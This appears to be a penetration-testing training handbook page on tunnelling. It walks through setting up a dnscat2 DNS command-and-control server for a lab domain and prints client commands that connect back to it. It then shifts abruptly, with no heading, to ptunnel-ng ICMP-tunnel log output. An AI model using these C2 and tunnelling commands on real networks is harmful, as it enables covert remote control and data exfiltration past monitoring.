 ```yaml
---
title: "Different Tunneling with Different Tools"
type: handbook
weight: 6
---
```


## DNS Tunneling with Dnscat2

[Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts. It uses an encrypted `Command-&-Control` (`C&C` or `C2`) channel and sends data inside TXT records within the DNS protocol.

### Setting Up & Using dnscat2

#### Cloning dnscat2 and Setting Up the Server

```bash
git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

#### Starting the dnscat2 server

```bash
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%